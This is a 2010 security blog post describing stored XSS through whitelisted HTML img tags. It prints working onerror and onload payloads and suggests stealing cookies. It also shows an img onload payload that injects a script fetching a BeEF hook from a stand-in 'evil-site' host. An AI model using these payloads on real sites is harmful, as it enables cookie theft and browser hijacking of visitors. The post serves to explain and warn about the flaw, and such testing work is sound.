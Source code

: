 ```yaml
---
id: 590
title: 'Exotic XSS: The HTML Image Tag'
date: '2010-04-06T13:45:54-05:00'
author: mtgarden
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=590'
permalink: /2010/exotic-xss-the-html-image-tag
categories:
    - Hacking
tags:
    - Exploits
    - Hacking
    - 'Matt Gardenghi'
    - XSS
---
```


There are the usual XSS tests.  And then there are the fun ones.  This is a story about a more exotic approach to testing XSS....

I was testing a company that had passed all XSS tests from their pentester.  I found that they allowed users to write HTML tags.  Of course they didn't permit &lt;script&gt; tags or &lt;iframe&gt; tags.  (Well, they did allow those, but that was an oops - no server side filtering.)  This company had whitelisted a variety of "safe" tags for use by clients.

That's boring, right?  Heh, thanks to Ron, I had a way to abuse their whitelist.  (I've since found this in Web Application Hackers Handbook, but I seem to have overlooked it at the time I read it.)  Three HTML 4 tags in particular allow javascript to be run from one of the elements and these are: &lt;img&gt;, &lt;object&gt;, and &lt;style&gt;.
<!--more-->
You are really unlikely to see &lt;object&gt; and &lt;style&gt; tags permitted, but &lt;img&gt; tags are a bit more common.  Note: since my work on this site, I've seen RSnake's <a title="page" href="http://ha.ckers.org/xss.html" target="_blank">page</a> and other pages that talk about using &lt;img src="alert('XSS')"&gt;.  That was nice in the past, but none of my current version browsers will execute that.  (Makes me wonder if the whole tracking image thing from emails of yesteryear still works, but that's a rabbit trail.  If you know, post a comment.)  Still, just because I can't source the javascript, doesn't mean I can't execute javascript....  We'll use different HTML 4 elements.

Now, in my scenario, I decided to input &lt;img src="blah.jpg" onerror="alert('XSS')"/&gt; and reloaded the page.  BINGO! I got a popup box.  This also works and has the advantage of a working image: &lt;img src="realimage.png" onload="alert('XSS')"/&gt;.

That's cool.  It's really easy to check that off on your list and say "vulnerable to XSS."  But, can you do anything besides popping boxes?  Doing something would be useful.  I had a question about all this, "will these elements support more than an alert box or is this a useless novelty?"  More tests were in order.

So, then we could replace alert() with document.write() and write the cookie to our server. This swipes cookies and that's better than a popup.  But why stop there?

Why not create a &lt;script&gt; on the page itself?  What's that you say?  &lt;script&gt; isn't on the whitelist?  So, your point?  If your browser creates the &lt;script&gt; locally, it can't be filtered, now can it?

Thanks to Mak (@mak_kolybabi) for giving me some of the tips I needed to get this going in the correct direction.

How about we try this:

&lt;img onload="var s = document.createElement('script'); s.src='http://evil-site/beef/hook/beefmagic.js.php';document.getElementsByTagName('head')[0].appendChild(s);" src="real_image.jpg" /&gt;

We have a image that triggers the onload element.  Now we tell the browser to create a script element.  You may not be able to write &lt;script&gt;, but you are able to write the word "script."  The createElement function tells the browser to create the &lt;script&gt;&lt;/script&gt;.  It's local to the client and the server has no idea.  :-D

Then we give the source element (what else would you use but <a title="BeEF" href="http://www.bindshell.net" target="_blank">BeEF</a>?) and then we place our new element into the page.  Viola! You've just turned a simple &lt;img&gt; tag into stored XSS....

I have noticed that using onload="local_function()," IE8 and FF3.6 have "issues."  Not sure what it is quite yet.

I spent a few moments looking around to see if I could locate websites that allow you to use HTML tags.  From a cursory perspective, Slashdot is safe, so is Digg, and most forums are now using BB Code.  So, how useful is this?  I'd wager it's probably a last resort. If you chained attacks you could potentially use it.  Suppose you bypassed the front line of defense (<a title="like so" href="http://www.skullsecurity.org/blog/?p=560" target="_blank">like so</a>) in a manner that allowed you to write tags, but ran into some sort of whitelist filtering on the server preventing &lt;script&gt; tags.  Now you have a way to create script tags while evading the filter.

We're not done yet....

Now, you might think that all of this is trivial and not very important.  I mean seriously, who allows users to write tags at all?  Let's look forward for a moment.  HTML5 is coming.  According to this<a title="site" href="http://simon.html5.org/html5-elements" target="_blank"> site</a> (and I have to think that they would know), we find this beautiful bit of information: all event handlers must be supported by all elements, or something like that.  And there are a bunch of new event handlers.

In other words, not only do we have access to onload/onerror in every element, we get lots more....  Stored XSS will be everywhere for years.  All these wannabe web guys who implement the cool new whizbang HTML5 as soon as it ships, will be running huge risks unless they carefully filter out event handlers.  (At least they need to prevent users from implementing event handlers.)  We've seen how well this has worked in the past, so my hopes for reasonably secure implementation are exactly nonexistent.

And if you have a site that you want to allow users to write tags, try switching to BB Code.  It's safer.  Well, in 10 minutes of testing I didn't see how to bypass it as it doesn't support anything.  :-D

Currently, I am developing a page that will test a browser's support of HTML 5 action events.  If you have suggestions or tips, send them my way.  I'm currently muddling through my coding.

Oh and just think about what would happen if someone accidentally on purpose managed to rewrite the &lt;img&gt; element on www.digg.com or www.google.com.  Would anyone ever notice?  How long would it take to find it?  Seriously, looking for a compromise, who'd look at the official logo for the infection?  Enjoy your nightmares people.

Cheers.